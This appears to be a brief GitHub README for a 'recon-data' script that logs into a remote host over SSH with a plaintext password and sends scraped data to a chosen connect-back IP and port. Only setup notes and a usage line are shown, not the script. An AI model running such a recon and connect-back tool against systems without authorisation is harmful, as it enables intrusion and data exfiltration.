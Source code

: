 # recon-data

### remote device needs to have screen installed

### local device needs to sshpass install:

```shell
apt install sshpass
```

## Usage:

```shell
./scrape.sh <user@hostname> <password> <connect-back-ip> <connect-back-port>
```